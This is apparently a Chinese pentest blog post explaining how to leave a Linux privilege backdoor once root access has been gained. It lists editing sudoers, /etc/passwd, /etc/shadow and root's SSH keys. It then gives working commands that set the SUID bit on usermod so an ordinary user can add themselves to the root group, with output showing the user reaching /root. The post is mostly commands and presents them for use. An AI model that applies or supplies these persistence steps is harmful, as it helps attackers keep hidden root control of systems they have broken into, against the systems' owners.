 +++
date = "2016-04-18T20:03:07+08:00"
description = ""
draft = false
tags = ["后门"]
title = "Linux之SUID后门"
topics = ["Pentest"]

+++

SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制

### 0x00 为二进制文件添加s权限从而提升为root权限
1. 写sudoers添加用户  `//最佳方案`  
2. vim /etc/passwd    `//将uid和gid改为0`
3. vim /etc/shadow    `//密文覆盖`  
4. vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

### 0x01 SUID主要作用可以是留后门
* 在root权限下给usermod一个s权限
```bash
# which usermod   #得到usermod的路径                             
/usr/sbin/usermod
# chmod u+s /usr/sbin/usermod
# ls -l /usr/sbin/usermod
-rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* usermod给其他人一个x权限
```bash
[root@localhost ~]# chmod o+x /usr/sbin/usermod
[root@localhost ~]# ls -l /usr/sbin/usermod
-rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* 切换到普通用户wyb
```bash
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=500(wyb) groups=500(wyb)
[wyb@localhost ~]$ usermod -g root wyb
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=0(root) groups=0(root)
[wyb@localhost ~]$ exit
```

* 验证
```bash
重新用wyb连接，此时即为root权限
[wyb@localhost ~]$ cd /root  #若能切换到此目录即证明确实获得了root权限
[wyb@localhost root]$ ls
anaconda-ks.cfg  install.log  install.log.syslog
```

